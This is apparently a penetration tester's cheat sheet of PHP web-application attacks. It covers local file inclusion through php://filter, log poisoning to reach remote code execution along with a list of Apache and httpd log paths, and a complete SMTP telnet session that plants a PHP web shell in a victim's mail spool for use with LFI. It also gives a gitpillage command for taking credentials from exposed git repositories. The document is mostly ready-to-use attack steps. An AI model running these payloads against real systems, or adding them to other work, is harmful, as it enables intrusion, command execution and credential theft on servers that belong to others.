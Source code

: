* [PayloadsAllTheThings assortment of payload formats](https://github.com/swisskyrepo/PayloadsAllTheThings)

* Common PHP web application methods
  * [PayloadsAllTheThings LFI/RFI PHP wrappers](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#lfi--rfi-using-wrappers)

  * LFI of PHP source files via `php://filter/convert.base64-encode/resource=<file>.php` filters; decode with `echo -n <base64payload> | base64 -d`

  * `phpinfo()` [LFI race condition](https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)

  * [Pair LFI with injection to HTTP access logs](https://www.exploit-db.com/papers/12992/) via modification of HTTP request attributes to achieve RCE (see below for typical log locations)
```sh
# ubuntu / debin
/var/log/apache2/error.log
/var/log/apache2/access.log

# ubuntu-specific
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf

# centos / fedora / oel / rhel
/var/log/httpd/error_log
/var/log/httpd/access_log

# freebsd
/var/log/httpd-error.log
/var/log/httpd-access.log
```

* Using SMTP to upload a payload to a file accessible at `/var/mail/<victim>`
```sh
$ telnet <target> 25
EHLO <user>.<domain>.<tld>  <--- this doesn't matter
VRFY <victim>@localhost   <--- ensure our victim is a valid user
mail from: pwned@haha.io
rcpt to: <victim>@localhost
data  <--- begin the content of our email
Subject: you got pwned
<?php echo shell_exec($_GET['cmd']);?>

.  <--- end your email with CRLF.CRLF
# this email should now be accessible at /var/mail/<victim>; pair this with LFI for a webshell
```

* Gathering information from version control instances; possibilty of keys/credentials in commit history
```sh
# useful tool for git: https://github.com/koto/gitpillage
./gitpillage www.example.com
```
